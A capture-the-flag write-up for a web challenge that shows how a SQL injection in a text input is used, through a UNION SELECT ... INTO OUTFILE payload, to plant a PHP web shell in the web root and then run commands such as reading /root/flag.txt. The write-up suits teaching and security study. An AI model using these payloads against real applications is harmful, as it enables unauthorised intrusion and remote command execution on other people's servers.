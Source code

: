 ## Customer Care

<p align="center">
<img src="chall.png"/>
</p>
<hr>
<p align="center">
<img src="page.png" />
</p>

This challenge was a simple sql injection vulnerability. 
There is a text input in the main page. If you try special inputs like ```1' or 1=1 ; #'``` you will realize this input can be exploited with sql injection.

<p align="center">
<img src="page_2.png"/>
</p>

On the other hand if you try an invalid url you will see this in 404 page:

<p align="center">
<img src="page_3.png"/>
</p>

So the web files are stored in the address ```/var/www/ecustomers/```

Let's see if we can get a shell by using this payload:

```1' union select "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE "/var/www/ecustomers/sth.php" ; #```

In this payload we write a php code into a file called 'sth.php' that executes shell commands.

Now to see if we have successfully uploaded the payload we enter this url: ```sth.php?cmd=uname+-a```

```uname -a``` is just an example. I could try any other linux commands as long as it gave me some output.

<p align="center">
<img src="page_4.png"/>
</p>

Now that we have access to shell if we look around the server files we can find these files in /root directory.

<p align="center">
<img src="page_5.png"/>
</p>

Finally we can enter this url ```sth.php?cmd=cat+/root/flag.txt``` and get the flag.
